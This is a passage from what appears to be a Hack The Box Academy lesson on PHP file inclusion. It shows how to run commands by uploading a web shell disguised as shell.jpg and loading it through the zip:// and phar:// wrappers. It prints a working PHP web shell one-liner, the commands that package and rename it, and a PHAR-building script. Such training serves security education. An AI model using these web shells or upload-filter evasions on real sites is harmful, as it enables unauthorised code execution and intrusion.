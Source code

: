 As mentioned earlier, the above technique is very reliable and should work in most cases and with most web frameworks, as long as the vulnerable function allows code execution. There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:

```shell-session
root@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Note: Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded). Finally, we can execute commands as we always do with `&cmd=id`, as follows:

![](https://academy.hackthebox.com/storage/modules/23/data\_wrapper\_id.png)

As we can see, this method also works in executing commands through zipped PHP scripts.

Note: We added the uploads directory (`./profile_images/`) before the file name, as the vulnerable page (`index.php`) is in the main directory.

***

### Phar Upload

Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:

```shell-session
root@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a phar file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`), as follows:
